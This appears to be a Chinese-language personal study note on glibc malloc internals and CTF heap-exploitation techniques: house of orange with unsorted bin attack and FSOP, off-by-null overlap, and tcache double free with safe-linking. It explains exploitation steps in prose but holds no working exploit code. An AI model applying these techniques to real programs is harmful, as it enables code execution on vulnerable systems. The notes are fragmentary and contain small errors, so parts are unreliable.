当你调用 `malloc(1)` 或 `malloc(0x10)` 这类小请求时，glibc 实际返回给你的 chunk 大小就是 `MINSIZE`（32 字节）。其中，一部分空间用于存储 chunk 的元数据（如 `size` 字段），剩下的才是用户数据区。

`MINSIZE` 在分配逻辑中也是一个重要的判断阈值。例如，当从一个大空闲块（如 top chunk）中分割出所需内存后，**剩余的部分必须不小于 `MINSIZE`**，才有保留为一个独立空闲块的价值，否则整个大块都会被直接分配出去。


malloc_consolidate:

1. **`free()` 时达到阈值**：这是最常见的触发方式。当一个被释放的 chunk 大小超过 `FASTBIN_CONSOLIDATION_THRESHOLD`（默认 **64KB**）时，为了避免 fastbin 过度膨胀，`free` 会调用 `malloc_consolidate` 来清理所有的 fastbin。
2. **`malloc()` 处理大请求前**：当程序请求一个**大块内存**（`large request`）时，`malloc` 可能会先调用 `malloc_consolidate`，期望通过合并 fastbin 中的碎片，能凑出一个满足大请求的空闲块，从而避免向系统申请新的内存（`sbrk` 或 `mmap`）。
3. **分配器初始化时**：`malloc_consolidate` 有时也负责在首次调用 `malloc` 时完成分配器的初始化工作。


`__builtin_expect(EXP, N)`，意思是**“我期望表达式 `EXP` 的值等于 `N`**

`av->system_mem` 是这个 arena **从系统（`sbrk`/`mmap`）申请到的总堆内存量**，记录在 `malloc_state` 里

`av->last_remainder` 是 arena（`malloc_state`）里的指针，记录【上一次分割 small 块之后剩下的那个 unsorted bin chunk】


request2size:

它是 glibc 里的宏，把你传给 malloc 的「用户想要的字节数 (req)」，换算成 ptmalloc 内部用的 chunk 总大小（nb）


```
chunk_at_offset(victim, nb)
```


```c
#define set_head(p, s)   ((p)->size = (s))
```


```c
#define chunk2mem(p)   ((void*)((char*)(p) + 2*SIZE_SZ))
```


所以说就是这个漏洞发生在chunk从unsortedbin进入largebin的时候

那代码实在有点绕，关键是长。所以简明要点


### house of orange

目前就是先修改top chunk的相关参数之后经过unsortedbin attack 然后是

向指定的内存空间写入（）

fsop还没看

overflow函数调用：参数是结构体第一个的首地址，也就是第一个参数

int (*__overflow)(FILE *fp, int ch);


简单总结：

题目中没有free，但是存在堆溢出，这个时候我们可以利用相关的malloc机制来控制相关的堆块进入我们想让他们进入的bin中。

首先是topchunk进入unsortedbin，为什么需要topchunk?


修改条件：


没看懂这段payload

反正就只是知道这段改的是相应的old_top_chunk的相关字节

之后这个topchunk就进入unsoretdbin中了，（当然看wp时候看到还是需要泄露堆地址和libc地址，这时就需要largebinattack了，largebin的size字段泄露对地址，而unsortedbin中的fd和bk字段泄露的即是mian_area也就是libc地址）

接下来就是unsoretdbinattack 就是修改unsorted bin 的bk指针为io_list_all地址，接下来io_list_all里面就会被写入main_area+88的地址


当然这里写入的因该是io_list_all-0x10;

所以下一次再申请堆块的时候，io_list_all就会被写入main_area+88

而我们需要改动的是其结构体里面的chain(main_area+168)这个chain其实决定了下一个io_list_all结构体的地址，让这个地址又是smallbin中size为0x60的数组，所以我们就可以再来一个smallbin来更改结构体里面的内容。


需要根据绕过的检查来更改内容：

io_over_flow的触发条件：


mode=0,_IO_write_ptr=1,_IO_write_base=0

而这个函数的第一个fp就是，这个结构体中的第一个内容，就是flags.

而我们能修改的其实是第2个结构体，我们需要这个mode<0 overflow才不会触发，这个时候才会根据chain找到下一个结构体，进而触发相关的操作。

house of orange中的函数调用流程为：

__libc_malloc->malloc_printerr->libc_message->abort->_IO_flush_all_lockp

前面也说了，控制第2个结构体是通过smallbin改写的（这就需要上一个结构体中的chain地址为堆块地址）然后调用函数的时候是根据vtable表，这个里面

```c#
const struct _IO_jump_t _IO_wstrn_jumps attribute_hidden =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_wstr_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wstrn_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wstr_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wstr_pbackfail),
  JUMP_INIT(xsputn, _IO_wdefault_xsputn),
  JUMP_INIT(xsgetn, _IO_wdefault_xsgetn),
  JUMP_INIT(seekoff, _IO_wstr_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_default_setbuf),
  JUMP_INIT(sync, _IO_default_sync),
  JUMP_INIT(doallocate, _IO_wdefault_doallocate),
  JUMP_INIT(read, _IO_default_read),
  JUMP_INIT(write, _IO_default_write),
  JUMP_INIT(seek, _IO_default_seek),
  JUMP_INIT(close, _IO_default_close),
  JUMP_INIT(stat, _IO_default_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};


```

所以最终调用也就是说需要满足的是函数触发条件，第一个结构体中的mode为正，这样才能进入第二个，然后smallbin堆溢出修改第二个结构体中的先关参数，再伪造我们创建的假的vtable表，里面放入我们构造的system函数，之后flag再填入我们需要的参数，最后触发。

[关于house of orange(unsorted bin attack &&FSOP)的学习总结 - ZikH26 - 博客园](https://www.cnblogs.com/ZIKH26/articles/16712469.html)

# off by null

strcpy函数：复制的时候在末尾会加上/

我觉得就是申请堆块，然后再修改相关size字段之后再次free

四个堆块


主要就是将还未释放掉的堆块chunk1进入bin中

*overflow chunk的大小，因为要产生off by null，所以它的大小应该为八字节结尾（例如0x58,0x68,0x78···）*

就主要修改chunk2的presize位和presize的大小，之后触发向前合并，大小需要满足chunk0和chunk1

之后free掉就会包含chunk1


## 2.27

#### tcache

两个结构体

```
tcache_entry`和`tcache_perthread_struct
```

额，现在的话就只是知道在堆块被释放之后，进入对应大小的tcache中，之后相同大小的会在同一块链表中，并且是通过fd指针进行连接的，并且fd链表中是用户数据区起始地址。

第二次：

[Tcache攻击实战：从UAF到任意地址分配的堆利用入门-CSDN博客](https://blog.csdn.net/weixin_29327977/article/details/168277575#:~:text=本文深入解析Tcache堆利用机制，聚焦于UAF漏洞触发下的Tcache,poisoning实战。 详细阐述Tcache与fastbin的底层差异、tcache_entry结构、key字段绕过、异或混淆（safe-linking）计算、double-free构造及任意地址分配的边界条件。)

这个不错，从中看就是。你如果想完成double free 的话，就只需要在释放完之后再次修改其key值。

还有目标地址，你需要进行异或一下。